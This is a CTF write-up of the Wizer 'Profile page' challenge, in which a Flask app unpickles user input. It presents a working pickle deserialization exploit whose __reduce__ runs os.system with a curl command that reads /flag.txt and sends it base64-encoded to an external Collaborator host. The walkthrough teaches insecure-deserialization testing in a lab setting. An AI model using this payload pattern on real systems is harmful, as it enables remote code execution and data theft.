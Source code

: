 ```yaml
---
title: 'Wizer CTF - Pickle Deserialization RCE'
description: 'Pickle Deserilization RCE CTF writeup from Wizer CTF.'
pubDate: 'Feb 7 2024'
heroImage: '/PythonPickleRCE.jpg'
tags: ['CTF', 'Web', 'RCE', 'Python']
---
```


Wizer recently hosted a 6-hour Blitz CTF consisting of 6 challenges to be solved in 6 hours. These challenges varied in difficulty, as measured by hot peppers ranging from 1-5. This challenge, titled "Profile page" scored 4/5 peppers.

For this challenge, we are given a URL and the Python source code of the application behind it. It is a small application written in Python using Flask and Pickle. As soon as I saw it was using Pickle, I already knew it was going to be an interesting deserialization challenge!

The challenge on the CTF dashboard can be seen here:
![Challenge from CTF dashboard](/src/assets/WizerPickleRCE/Chall4.jpg)

## Solution

The source code of the app is given:
```py
from flask import Flask, request, render_template
import pickle
import base64

app = Flask(__name__, template_folder='templates')
real_flag = ''
with open('/flag.txt') as flag_file:
    real_flag = flag_file.read().strip()

class Profile:
    def __init__(self, username, email, bio):
        self.username = username
        self.email = email
        self.bio = bio

@app.route('/profile', methods=['GET', 'POST'])
def profile():
    if request.method == 'POST':
        username = request.form.get('username')
        email = request.form.get('email')
        bio = request.form.get('bio')

        if username and email and bio:
            profile = Profile(username, email, bio)
            dumped = base64.b64encode(pickle.dumps(profile)).decode()
            return render_template('profile.html', profile=profile, dumped=dumped)    

    load_object = request.args.get('load_object')
    if load_object:
        try:
            profile = pickle.loads(base64.b64decode(load_object))
            return render_template('profile.html', profile=profile, dumped=load_object)
        except pickle.UnpicklingError as e:
            return f"Error loading profile: {str(e)}", 400

    return render_template('input.html')

@app.route('/submit_flag/<flag>', methods=['GET'])
def flag(flag):
    return real_flag if flag == real_flag else 'Not correct!'

if __name__ == '__main__':
    app.run(debug=True)
```

As we can see, there is not a lot of functionality on the site other than on the ``/profile`` endpoint. Reading into the code, we can see that if we supply a username, email, and bio, it will use that to create a ``Profile`` object using Pickle and our data.
Reading a bit further, we can see that we also have the option to load a ``Profile`` object using the ``load_object`` parameter. This is very interesting to us because it gives us a way to give ``pickle.loads()`` data that we fully control.

Reading up on the [Pickle documentation](https://docs.python.org/3/library/pickle.html) it says the following:

> The pickle module **is not secure**. Only unpickle data you trust.<br>
> It is possible to construct malicious pickle data which will **execute arbitrary code during unpickling**. Never unpickle data that could have come from an untrusted source, or that could have been tampered with.

So our goal here is to create an object that gives us code execution. Reading from the [documentation](https://docs.python.org/3/library/pickle.html#pickle.loads) again, it says the following regarding ``pickle.loads()``:
> Return the reconstituted object hierarchy of the pickled representation *data* of an object.

Our goal now is to create an object that, when reconstituted, runs commands on the server.
For this, we will need to choose our command and create a pickled object with our payload. Since we just need the flag for this challenge, I'll just be using a simple Curl payload:
```bash
curl http://9dnou0awv3b99xsbgqre8kwl5cb3ztni.oastify.com/$(cat /flag.txt | base64 -w 0)
```

This will send a request to my BurpSuite Collaborator listener with the flag in the URL, but in theory, you could set up a reverse shell to get a stable connection and actually look for the flag. We do, however, know that the flag is located at ``/flag.txt``, so that won't be needed here.


So, let us create a Python object and give it our payload:
```python
import pickle
import base64
import os
import requests

class RCE:
    def __reduce__(self):
        cmd = ('curl http://9dnou0awv3b99xsbgqre8kwl5cb3ztni.oastify.com/$(cat /flag.txt | base64 -w 0)')
        return os.system, (cmd,)

pickled = pickle.dumps(RCE())
payload = base64.b64encode(pickled).decode()
print(payload)

req = requests.get(f'https://dsw3qg.wizer-ctf.com/profile?load_object={payload}')
print(req.status_code)
```

> It is important that you run this script from an OS that matches the target OS. In this case, the target is running Linux, so make sure to run it on Linux. WSL also works, but Windows most likely **will not work**.

Here we create a custom object named ``RCE`` (the name does not matter), and we set the ``__reduce__`` method to return our command using ``os.system``. This command will then be run when the server tries to load our custom object.
Once it is created, we then base64 encode it, print it (just for debugging if anything goes wrong), and send it to the server. If everything goes well, it will return ``200``, and we will see a request in BurpSuite Collaborator:
![Flag request in Burp](/src/assets/WizerPickleRCE/Req.png)

Here we see that we have received the request! Now all there is left to do is just decode it from Base64 and send it to the flag server to mark it as solved!
We can simply decode it using our CLI:
![Base64 decoding flag](/src/assets/WizerPickleRCE/Flag.png)

And there we have the flag!<br>
``WIZER{'PICKL1NG_1S_DANGEROUS'}``

To solve the challenge, all we have to do is send a request to the following URL:<br>
```
https://dsw3qg.wizer-ctf.com/submit_flag/WIZER{'PICKL1NG_1S_DANGEROUS'}
```